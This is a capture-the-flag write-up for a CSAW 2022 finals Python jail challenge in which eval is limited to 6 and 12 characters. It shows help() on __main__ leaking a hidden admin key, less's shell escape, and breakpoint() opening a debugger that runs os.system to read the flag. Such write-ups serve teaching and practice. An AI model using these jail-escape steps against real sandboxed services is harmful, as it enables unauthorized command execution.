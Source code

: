 # eMbrEy0 LEaK

Categories: Misc

Description:
> ???
> 
>author: ??
>
>[chal](src-public/service.py)
> 
> Private files not shared: [flag](src-private/flag), [chal](src-private/service.py)

**Tags:** python jail, `help()` leak, `breakpoint()`

## Takeaways

- You can use `help()` to leak data, file paths, source code, execute python code, or even execute system commands as it is piped through the `more` or `less` programs.
- `help()` and `breakpoint()` to get RCE.

## Solution

The source code of the challenge that we are given is pretty minimal:

```python
fake_key_var_in_the_local_but_real_in_the_remote = "[DELETED]"

def gUeST():
    print("Welcome to the gUeST func")
    print("It's time to input your command:")
    code = input("Command >")
    if(len(code)>6):
        return print("!!!!! TOO long!you're hacker!")
    try:
        print(eval(code))
    except Exception:
        return print("--- Exception: ---")

def BacKd0oR():
    print("Welcome to the B@cKd0oR func")
    print("Please enter the admin key:")
    key = input("key >")
    if(key == fake_key_var_in_the_local_but_real_in_the_remote):
        code = input("Command >")
        if(len(code)>12):
            return print("too long!you're hacker!")
        try:
            print(eval(code))
        except:
            pass
    else:
        print("Nooo!!!!")

WELCOME = '''<long prompt>'''

print(WELCOME)

print("Now the program has two functions")
print("can you use B@cKd0oR")
print("1.gUeST")
print("2.B@cKd0oR")
input_data = input("Choice > ")
if(input_data == "1"):
    gUeST()
    exit(0)
elif(input_data == "2"):
    BacKd0oR()
    exit(0)
else:
    print("not found the choice")
    exit(0)
```

As we can see, this is a two-stage challenge. In the fist stage we are allowed only 6 characters of input, while in the second stage only up to 12 characters of input. Let's try to brainstorm some ideas of short payloads that we can send:

```python
# https://docs.python.org/3/library/functions.html
input()
help()
vars()
locals()
globals()
breakpoint()
dir()
eval()
exec()
open()
[]
{}
__XX__() # builtins
__name__
__main__
```

As we can see, most of the above payloads are more than 6 characters. However, two payloads stand out. `help()` is exactly 6 characters and gives us an interesting prompt, and `breakpoint()` is exactly 12 characters.

### Stage 1

We will attempt to use the [help](https://docs.python.org/3/library/functions.html#help) built-in in order to leak the `key` and unlock stage 2. When we run `help()`, we are presented with the following terminal:

![help.png](resources/help.png)

The help utility generally gives us the `__doc__` of whatever we provide it, lists classes of modules, functions, etc. One thing to notice here is that when we request information for, e.g. a module, we are dropped into the `less` utility program. After some exploration and going through the help information in `less`, we see that it allows arbitrary command execution:

![less.png](resources/less.png)

When we try the `!whoami` command in `less`, we get no response. Probably the server has a modified version of `less` as we can exploit this functionality locally, but not on the remote.

Back to the `help()` python prompt now. In python, we know that [`__main__`](https://docs.python.org/3/library/__main__.html) is a module and corresponds to the challenge's code (top-level code environment). Let's try that:

```log
help> __main__

Help on module __main__:

NAME
    __main__

FUNCTIONS
    BacKd0oR()

    gUeST()

DATA
    WELCOME = '      \n       __  __ _          ______       ___...       ...
    __annotations__ = {}
    input_data = '1'
    key_a16379411c7ea222 = 'd3967f4666b31fb2b415abca64f6b18c'

FILE
    ~/ctfs/csaw22-finals/misc/embryo-leak/src-private/service.py

(END)
```

As we can see from above, `help(__main__)` actually returns statically initialized data and variable names. So, the value to enter stage2, is `d3967f4666b31fb2b415abca64f6b18c`.

(One side note here, is that if you pass in the prompt `help> service.py`, then the file will start executing again.)

### Stage 2

For stage 2, we already know that we can use `breakpoint()` as it is exactly 12 characters long:

```bash
Now the program has two functions
can you use B@cKd0oR
1.gUeST
2.B@cKd0oR
Choice > 2
Welcome to the B@cKd0oR func
Please enter the admin key:
key >d3967f4666b31fb2b415abca64f6b18c
Command >breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('ls')
flag  __pycache__  service.py
0
(Pdb) os.system('cat flag')
flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}00
(Pdb) exit
```

So, we get the flag! `flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}`
